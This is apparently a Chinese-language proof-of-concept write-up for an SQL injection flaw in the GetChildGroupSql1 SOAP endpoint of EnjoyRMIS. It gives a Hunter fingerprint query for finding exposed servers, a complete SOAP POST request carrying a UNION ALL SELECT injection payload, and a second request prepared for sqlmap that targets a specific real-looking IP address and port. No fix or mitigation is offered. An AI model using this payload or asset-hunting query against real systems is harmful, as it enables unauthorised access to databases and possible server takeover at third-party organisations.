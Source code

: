 # EnjoyRMIS GetChildGroupSql1存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS GetChildGroupSql1存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/jWjV8uVque7i9zbw/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-060256.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/ReportTool/cwsqry.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetChildGroupSql1"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetChildGroupSql1 xmlns="http://tempuri.org/">
      <sGuid>1') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,(select @@version),NULL,NULL-- jhpF</sGuid>
    </GetChildGroupSql1>
  </soap:Body>
</soap:Envelope>
```

![1700643625811-3b3425fa-909f-411b-8d72-d46fe7c0c397.png](./img/jWjV8uVque7i9zbw/1700643625811-3b3425fa-909f-411b-8d72-d46fe7c0c397-123468.png)

sqlmap

```plain
POST /EnjoyRMIS_WS/WS/ReportTool/cwsqry.asmx HTTP/1.1
Host: 120.78.175.218:8008
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetChildGroupSql1"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetChildGroupSql1 xmlns="http://tempuri.org/">
      <sGuid>1</sGuid>
    </GetChildGroupSql1>
  </soap:Body>
</soap:Envelope>
```

![1700643507730-28f5a0db-3d0c-40ea-9e13-8c97909a8163.png](./img/jWjV8uVque7i9zbw/1700643507730-28f5a0db-3d0c-40ea-9e13-8c97909a8163-133965.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gw589s9zgn0o9yrq>